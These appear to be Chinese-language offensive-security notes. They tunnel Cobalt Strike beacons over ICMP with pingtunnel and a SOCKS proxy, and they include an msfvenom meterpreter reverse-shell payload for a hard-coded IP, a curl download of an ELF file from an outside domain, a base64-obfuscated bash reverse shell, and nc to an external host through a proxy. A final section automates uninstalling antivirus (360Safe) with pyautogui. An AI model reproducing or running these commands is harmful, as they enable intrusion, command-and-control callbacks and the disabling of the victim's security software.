icmp隧道转发socks上线cobaltstrike
1.准备好一个具有公网ip的服务器，root权限运行以下命令，启动ICMP隧道服务端
./pingtunnel -type server -noprint 1 -nolog 1
2.ICMP隧道客户端（即需要通过ICMP隧道上线的主机）执行以下命令即可成功创建反向ICMP隧道
pingtunnel.exe -type client -l 127.0.0.1:6688 -s icmpserver_ip -sock5 1 -nolog 1 -noprint 1
# 该命令的意思是icmp隧道客户端监听127.0.0.1:6688启动socks5服务，通过连接到icmpserver_ip的icmp隧道，由icmpserver转发socks5代理请求到目的地址
3.cobaltstrike创建listener
HTTPS Hosts c2ip
HTTPS Port 443
HTTPS Proxy socks://127.0.0.1:6688
这里也可以使用http代理，不过需要工具将http代理转为socks5代理，比如privoxy
4.选择创建的listener生成beacon上传到目标执行即可上线
内网渗透中内网穿透的本质，无非是通过各种通信信道，无论是正向的还是反向的，实现传输层协议tcp/udp数据包的转发，应用层协议都是基于传输层的协议实现的。
隧道客户端将tcp/udp数据包封装写进数据库，再由隧道服务端从数据库中读出封装的数据包解包，发往对应地址即可


msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=18.223.135.153 LPORT=3333 -f elf > shell.elf
curl https://chasers.fun/config.elf -O

bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMTI4LzEyMzQgMD4mMQ== | base64 -d | bash -i"

nc通过socks代理建立连接(输出提示不可信)
nc -nv -X 5 -x 127.0.0.1:1088 18.223.135.153 9898
4 SOCKS v.4
5 SOCKS v.5（默认）
connect HTTPS proxy

调出程序的卸载界面
1.使用wmic call uninstall
使用wmic有些软件并不会出现在安装列表中
2.查询注册表获取uninstallstring后使用os.system启动
此方法会触发敏感操作报警
3.直接打开软件安装目录，模拟点击卸载程序 
直接模拟用户点击进行卸载程序的显示 
os.startfile(r"C:\Program Files (x86)\360\360Safe") 
拟用户使用滚轮查找卸载程序
pyautogui.scroll(num or -num) 正数表示滚轮向上，负数则向下
pyautogui.scroll(-1000) 
定位卸载程序的焦点 需要一个要捕获的目标图片 截图即可
识别并获取元素在屏幕上的相对位置信息 
uninstalllocation = pyautogui.locateOnScreen('step-1.png') 
定位到其中心点，转换为坐标 
uninstallpoint = pyautogui.center(uninstalllocation) 
分离坐标
ux,uy = uninstallpoint
模拟点击 clicks=2为双击，默认为单击
pyautogui.click(ux, uy,clicks=2)
由于程序要读取目标图片才能获取位置信息，我们在使用时需要连同脚本图片一同放到目录里
解决这个问题我可以将图片进行base64编码，嵌入到脚本里。在运行时，先释放我们的目标图片文件，再进行后续操作，这样我们只需要上传一个脚本即可
https://mp.weixin.qq.com/s/ksD2wU9wu_dXPQYRoXrVcA
